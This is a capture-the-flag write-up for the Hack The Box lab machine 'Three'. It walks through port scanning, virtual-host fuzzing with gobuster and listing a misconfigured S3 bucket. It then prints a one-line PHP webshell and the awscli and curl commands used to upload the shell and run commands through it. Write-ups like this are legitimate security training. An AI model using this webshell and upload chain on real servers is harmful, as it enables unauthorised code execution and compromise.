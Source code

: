 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Three

## Summary

## Summary

As one of Starting Point's Tier 1 boxes, [Three](https://app.hackthebox.com/starting-point) offers a direct approach to **web fuzzing** and **AWS S3** exploration. By initially **enumerating a domain name** through the webpage and proceeding to fuzz it, we uncover an **S3 bucket**. Further enumeration exposes **misconfigurations** in the S3 bucket, granting us access to its contents and the ability to upload files. Leveraging this vulnerability, we successfully upload a **webshell** and gain control over the `flag.txt` file, ultimately compromising the system.

<table><thead><tr><th width="88" align="right">Step</th><th width="235">Action</th><th width="153">Tool</th><th>Gained</th></tr></thead><tbody><tr><td align="right">1</td><td>Web server enumeration</td><td>Browser</td><td>Domain name</td></tr><tr><td align="right">2</td><td>Fuzzing</td><td><a href="../../tools/web/dirbusting/gobuster.md">gobuster</a></td><td>S3 bucket</td></tr><tr><td align="right">3</td><td>AWS Enumeration</td><td><a href="../../tools/web/cloud/aws.md#usage">awscli</a></td><td>Foothold path</td></tr><tr><td align="right">4</td><td>Webshell upload</td><td><a href="../../tools/web/cloud/aws.md#usage">awscli</a>, <a href="../../tools/web/curl.md">curl</a>, <a href="broken-reference">jq</a></td><td>Foothold</td></tr></tbody></table>

## Recon

### Port Scan

Let's start with a port-scan using [Nmap](../../tools/port-scanners/nmap.md).

```bash
$ sudo nmap -T4 -open -sC -sV 10.129.206.82

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: The Toppers
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are just 2 services listening:

1. An SSH service on port `22`, but we don't have credentials to use it.
2. An Apache web server on port `80` which probably be the focus on this box.

### Web Server Enumeration

By visiting the IP address via our browser we encounter a static site; nothing really works. The only useful thing there is a domain name (`thetoppers.htb`) on the `CONTACT` page (Figure 1).

<figure><img src="../../.gitbook/assets/three_contact.png" alt=""><figcaption><p>Figure 1: The <code>thetoppers.htb</code> domain on the <code>CONTACT</code> page.</p></figcaption></figure>

Before moving forward, we will add it on our local DNS file (`/etc/hosts`) and we will also check what technologies this site uses.

{% code overflow="wrap" %}
```bash
# Confirming that the domain was added to our local file
$ grep toppers /etc/hosts
10.129.206.82   thetoppers.htb
# Checking the technologies used on the site
$ whatweb thetoppers.htb
http://thetoppers.htb [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], Email[mail@thetoppers.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.129.206.82], Script, Title[The Toppers]
```
{% endcode %}

### Fuzzing

Next, we can start our [fuzzing](../../tools/web/dirbusting/) scans. We will check for potential subdirectories, subdomains, and vhosts.

{% code overflow="wrap" %}
```bash
# Scanning for subdirectories
gobuster dir -u http://thetoppers.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php
# Scanning for subdomains
gobuster dns -d thetoppers.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -i
# Scanning for virtual hosts
gobuster vhost -u http://thetoppers.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain
```
{% endcode %}

The scan for subdirectories comes back with only the homepage (`/index.php`) and an `/images` directory, whereas the vhost scan returns nothing. Luckily, we were able to find out some vhosts (Figure 2).

<figure><img src="../../.gitbook/assets/three_vhosts.png" alt=""><figcaption><p>Figure 2: Scanning for virtual hosts with <code>gobuster</code>.</p></figcaption></figure>

Before trying to access `s3.thetoppers.htb` we will need to first add it on our `/etc/hosts` file.

```bash
$ grep thetop /etc/hosts
10.129.206.82   thetoppers.htb s3.thetoppers.htb
```

### Foothold

### AWS Enumeration

`S3` is the [Amazon's Simple Storage Service (AWS S3)](https://aws.amazon.com/s3/) and there are specific tools to interact with it, such as [`awscli`](../../tools/web/cloud/aws.md). Before interacting with an S3 bucket we need to configure our connection, typically, using the AWS Access and Secret keys. However, an S3 bucket can also be misconfigured, i.e., do not check for authentication. If the latter case is true, we can configure it using anything we wish.

After doing that (Figure 3.1), we can proceed on listing the S3 buckets that are available on the server (Figure 3.2), and if we find one, what's in it (Figure 3.3).

```bash
# Configuring AWS connection
$ aws configure
AWS Access Key ID [****************temp]: temp
AWS Secret Access Key [****************temp]: temp
Default region name [temp]: temp
Default output format [temp]: temp

# Listing all s3 server buckets
$ aws --endpoint=http://s3.thetoppers.htb s3 ls
2024-04-29 06:46:43 thetoppers.htb

# Listing all files within the specified s3 bucket
$ aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2024-04-29 06:46:43          0 .htaccess
2024-04-29 06:46:43      11952 index.php
```

<figure><img src="../../.gitbook/assets/three_aws_listings.png" alt=""><figcaption><p>Figure 3: Configuring and exploring the S3 vhost. </p></figcaption></figure>

We notice that the `s3://thetoppers.htb` bucket contains the `index.php` file and the `images/` directory; the same files we found during our [directory scan](three.md#fuzzing) before. Thus, we can safely infer that this is the webroot (`http://thetoppers.htb`) of the static web site.

### RCE[^1]

Since we know the site's webroot as well as the programming language used (based on the `index.php` file), we can try to create a PHP file (`shell.php`) containing a [PHP webshell](broken-reference), upload it on the S3 bucket, and try to interact with it (Figure 4).

```php
<?php system($_GET['cmd']); ?>
```

```bash
# Uploading our web shell to the S3 bucket
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
# Interacting with the web shell
curl http://thetoppers.htb/shell.php?cmd=id
curl http://thetoppers.htb/shell.php?cmd=pwd
```

<figure><img src="../../.gitbook/assets/three_webshell.png" alt=""><figcaption><p>Figure 4: Uploading the web shell file to S3 and interacting with it. </p></figcaption></figure>

We could continue by uploading a reverse shell script in addition to the web shell, but for the sake of simplicity we won't. In order to find the `flag.txt` file, we will need to explore the host using commands which includes spaces, such as `ls ../` (Figure 5.1).  For achieving that through our webshell, we will need to [URL-encode](../../tools/cryptography.md#url) our commands, in this case use the `+` symbol instead of space (Figure 5.2). We can also use a more "advanced" technique including bash command substitution, `jq` and a pipe (`|`) to pass any command we like "directly" to it (Figure 5.3).

<figure><img src="../../.gitbook/assets/three_flag.png" alt=""><figcaption><p>Figure 5: Using URL-encoding to find and read the flag.</p></figcaption></figure>

[^1]: Remote Code Execution
